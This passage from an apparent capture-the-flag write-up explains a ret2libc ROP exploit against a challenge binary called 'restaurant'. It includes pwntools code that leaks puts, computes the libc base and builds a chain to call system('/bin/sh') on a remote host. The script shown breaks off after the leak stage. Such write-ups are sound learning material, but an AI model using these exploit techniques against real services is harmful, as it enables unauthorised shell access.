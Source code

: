 Now we can calculate our base address and update the elf object base address.
```python
# Calculate server libc base address
server_libc_base_addr = leak - libc.symbols['puts']

# Update libc base address
libc.address = server_libc_base_addr
```

Next we need to write our second ROP chain and we should have a shell. First we call the ```ret``` gadget one more time for stack alignment, add our ```pop_rdi``` gadget, add the address of our shell string, and finally call ```system```.
```python
# Craft second ROP chain
payload = padding
payload += p64(ret)
payload += p64(pop_rdi)
payload += p64(server_libc_base_addr + shell_offset)
payload += p64(server_libc_base_addr + system_offset)
```

Here is the whole shebang.
```python
#!/usr/bin/env python3

from pwn import *
import sys

context.arch = 'amd64'

elf = ELF("./restaurant")
libc = ELF("./libc.so.6")

target = remote("206.189.113.249", 30489)

target.sendlineafter("> ", b"1")

# Padding
padding = b"A"*40
# Gadgets
pop_rdi       = 0x00000000004010a3 # pop rdi; rets
ret           = 0x000000000040063e # ret;
# Useful addresses
fill          = 0x00400e4a
null_addr     = next(elf.search(b""))
plt_puts      = 0x00400650
got_puts      = 0x00601fa8
puts_offset   = 0x0000000000080aa0 # readelf -a libc.so.6 | grep "puts"
system_offset = 0x000000000004f550
shell_offset  = 0x1b3e1a # strings -a -t x libc.so.6 | grep "/bin/sh"

# Print newline character
payload = padding
payload += p64(pop_rdi)
payload += p64(null_addr)
payload += p64(plt_puts)

# Leak address of puts
payload += p64(pop_rdi)
payload += p64(got_puts)
payload += p64(plt_puts)

# Align the stack and return to fill function
payload += p64(ret)
payload += p64(fill)
```